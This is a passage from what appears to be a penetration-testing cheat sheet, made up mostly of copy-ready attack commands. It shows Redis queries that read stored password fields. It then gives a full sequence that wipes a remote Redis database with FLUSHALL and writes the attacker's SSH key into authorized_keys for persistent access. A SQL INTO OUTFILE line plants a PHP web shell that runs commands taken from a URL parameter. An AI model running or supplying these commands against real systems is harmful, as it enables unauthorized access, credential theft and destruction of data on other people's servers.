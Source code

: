 #### Examples

##### Add User

```c
redis /run/redis/redis.sock> HSET barfoo username foobar
redis /run/redis/redis.sock> HSET barfoo first-name foo
redis /run/redis/redis.sock> HSET barfoo last-name bar
redis /run/redis/redis.sock> HGETALL barfoo
```

##### Retrieve a specific Value

```c
redis /run/redis/redis.sock> KEYS *
redis /run/redis/redis.sock> SELECT 1
redis /run/redis/redis.sock> TYPE <VALUE>
redis /run/redis/redis.sock> HKEYS <VALUE>
redis /run/redis/redis.sock> HGET <VALUE> password
```

### Enter own SSH Key

```c
$ redis-cli -h <RHOST>
$ echo "FLUSHALL" | redis-cli -h <RHOST>
$ (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > /PATH/TO/FILE/<FILE>.txt
$ cat /PATH/TO/FILE/<FILE>.txt | redis-cli -h <RHOST> -x set s-key
<RHOST>:6379> get s-key
<RHOST>:6379> CONFIG GET dir
1) "dir"
2) "/var/lib/redis"
<RHOST>:6379> CONFIG SET dir /var/lib/redis/.ssh
OK
<RHOST>:6379> CONFIG SET dbfilename authorized_keys
OK
<RHOST>:6379> CONFIG GET dbfilename
1) "dbfilename"
2) "authorized_keys"
<RHOST>:6379> save
OK
```

## SQL

### Write to File

```c
SELECT "<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE '/PATH/TO/FILE/<FILE>'
```

## sqlcmd

